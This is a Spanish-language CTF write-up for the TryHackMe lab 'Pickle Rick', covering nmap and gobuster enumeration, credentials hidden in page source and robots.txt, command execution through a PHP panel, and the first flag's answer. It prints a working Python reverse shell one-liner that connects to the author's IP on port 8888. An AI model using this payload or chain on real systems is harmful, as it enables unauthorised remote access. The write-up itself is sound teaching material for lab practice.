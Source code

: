 ![image](https://github.com/user-attachments/assets/7d17c77b-532d-4103-9629-256c265b32a0)# Guia_Pickle_Rick
Maquina para principiantes de TryHackMe, pensada para usar herramientas y técnicas básicas

# Recursos requeridos en el procedimiento:
  Estos recusos son necesario pero de igual manera los explicare de manera correspondiente.
  Cada palabra esa enlaca a documentacion en caso de quede profundizar

## _[Nmap](https://nmap.org/docs.html)_
- Un herramienta de escaneo de puertos.

## _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_
- Una herramienta de escaneo de redes

## _[Kali-Linux](https://www.kali.org/docs/)_
- Un sistema operativo pensado para realizar pruebas de penetración avanzadas y auditorías de seguridad.

## _[Python](https://www.python.org/)_
- Un lenguaje de programacion. (solo ocupa entenderlo)

## _[HTML](https://developer.mozilla.org/es/docs/Web/HTML)_
- Lenguaje de etiquetas de hipertexto
## _[JavaScritp](https://developer.mozilla.org/es/docs/Web/JavaScript)_
- Lenguaje de Programacion (Entender el codigo) 

## _[PHP](https://www.strato.es/faq/hosting/que-es-php-y-como-lo-utilizo/)_

- Es un lenguaje de programación versátil que se ejecuta en el servidor

## Conceptos basicos para la maquina

- Revershell
- SHH
- Directorios
- Puertos y servicios

# Paso a paso 
![image](https://github.com/user-attachments/assets/b857d3e8-d271-437c-ba27-0cc06009ccab)
- *&* Ejecuta el comando en segundo plano.
  
Primero nos conectamos a la VPN de TryHackMe usando [OpenVPN](https://openvpn.net/as-docs/linux.html#tutorial--connect-from-linux) una ves conectados procedemos con un escaneo de red. 

Una vez conectados haremos un esceneo del equipo con Nnmap 
 -  Nota: TryHackme nos da la IP del odjetivo.
    
   ![image](https://github.com/user-attachments/assets/af097b5c-798d-4626-bf29-c02cac5ad01c)


![image](https://github.com/user-attachments/assets/dcc76218-3fa2-494b-beb7-47fd02dc1abe)

Podemos ver Dos puertos abiertos: 
- Puerto 22/tcp shh : Es protocolo de red para controlar un dispositivo de manera remota.
- Puerto 80/tcp http: Estan corriendo una pagina web en ese equipo.

Lo mejor seria buscar en la web alguna vulnerabilidad.

![image](https://github.com/user-attachments/assets/680b0410-d1c8-4c36-976c-a09782b83287)

![image](https://github.com/user-attachments/assets/4578cd72-83bf-4c9b-bb25-c1f1e04427f1)

Aqui podemos ver cual es el objetivo de este laboratorio. 

ahora como primer paso se pueden hacer dos cosas que seria usar "Gobuster" para buscar directorios ocultos o podemos inspeccionar el codigo fuente de la pagina(CTRL+U).

En mi caso inspeccione la pagina primero:
![image](https://github.com/user-attachments/assets/527cb5b3-5c72-4916-a8d0-2925e7f3246f)

Podemos notar que Rick comento su codigo y puso una nota para si mismo, donde se mencion un usuario.

### Username: R1ckRul3s

Despues eso no se ve nada mas relevante por lo procedemos a usar "Gobuster". 

## Como instalar _Gobuster_:
- Simplemete pon esto en la terminal `sudo apt install gobuster`

  Una vez instalado procedemos a llamarlo.
  ![image](https://github.com/user-attachments/assets/e058efed-7b37-452c-a7fd-862663b318e6)
- Ente comando podemos ver mucha informacion entre ella
- `gobuster` llama la herramienta.
- `dir` Utiliza el modo de enumeración de directorios/archivos
- `http://10.10.117.130` Se indicar la pagina que se desa analizar.
- `-w` es para indicarle a "Gobuster" que se le entregara un diccionario.
- `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `-x` es para buscar ciertos tipo de archivos en este caso especificamos: php,sh,txt,cgi,etc..

Para mas detalles de _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_

![image](https://github.com/user-attachments/assets/15d20262-9812-490e-a163-78ae43e4d947)

Yo termine el proceso cuando vi que no estaba consiguiendo nada mas. 

### Observaciones: 
![image](https://github.com/user-attachments/assets/7fd0ce21-2d9f-490a-be65-ae2347d518c8)

vemos un archivo en terminacion `.txt` esto quiere decir que es texto. 
ademas un directorio que dice `/assets` podemos revisar para averiguar algo.
Pero mas importante vemos un directorio `/login.php`.

Puedes revisar cual gustes aqui solo pondres los que son importantes.

### Revisando el `/robots.txt`

![image](https://github.com/user-attachments/assets/0a78485b-7fa2-452f-a394-a2fc2473cdc0)

- Vemos un texto, lo guadaremos en caso de que se nos pida alguna contraseña. 

### Revisando `/login.php`

![image](https://github.com/user-attachments/assets/0dcfa508-a00b-413e-8d2e-18dc989c1d9b)

Podemos ver que es una pagina de login 

anterior mente encontramos un usuario en un comentario del code: R1ckRul3s
y tambien encontramos una palabra en `/robots.txt`.

![image](https://github.com/user-attachments/assets/9e777166-868d-4b1c-8d2c-5a246b95a155)

Como podemo ser es una terminal de php por lo que podemos ejecutar comando en el equipo. 
pero para estar seguros ejecutamos un comando `whoami` para ver quien somos, en este caso somos `www-data` 

ahora averiguaremos que archivos puedo ver con `ls`.

![image](https://github.com/user-attachments/assets/9eaebf1a-8277-4626-8afe-a0f197a656d4)

Vemos varios textos por lo que usaremos `nl` para sobreleer la informacion del texto.

![image](https://github.com/user-attachments/assets/29089b17-e650-4716-804d-dac6c27e09a6)

### Primera flag: mr. meeseek hair

entreo los directorios no se ve nada interesante por lo que nos interesaria intentar hacer una [reverse shell](https://www.swhosting.com/es/blog/uso-del-comando-grep-en-sistemas-linux-unix) pero usando python3.

pero no sabemos si ese sistema tiene python instalado por lo que lo verificaremos.

![image](https://github.com/user-attachments/assets/eb05ef62-0b1b-4170-a91e-2e29955b0251)

Podemos ver que efectivamente responde por lo que ejecutaremos script de python para hacer reverse shell.

![image](https://github.com/user-attachments/assets/6345f700-db07-457c-8cbd-0fc076df5119)

Sabemos que el sistema usae python3 por lo que tenemos que especificar.

y ademas necesitaremos modificar el script para que nos funcione y ademas necesitamos poner un puerto a escuchar para resivir la reverse shell. 

para esto necesitamos saber cual es nuestra IP en mi casa:

![image](https://github.com/user-attachments/assets/ab5cc452-d7f8-4127-97a9-dafcba7f04b7)

tenemos tambien que acitvar un puerto en nuestro equipo para recibir, yo escogi el puerto 8888.

![image](https://github.com/user-attachments/assets/62adebd4-dc76-4a71-af67-9a0fbb1b582e)

y con eso queda pendiente a la reverse shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.35.128",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

IP: 10.21.35.128 - Puerto: 8888 

![image](https://github.com/user-attachments/assets/18a29b99-c10c-42b0-8048-75314c2979a2)

Una ves ejecutado podemos ver que el puerto ha recibido la reverse shell.

![image](https://github.com/user-attachments/assets/06d3e158-6ed9-4abc-b53d-3ca24a899813)

ahora para tener una mejor interfaz ejecutamos el siguiente escript `script /dev/null -c bash`.

![image](https://github.com/user-attachments/assets/c0c71bc3-228c-4c10-a68b-c70dd9eb7577)

lo que nos da una interfaz que nos muesta quienes somo y donde estamos. 











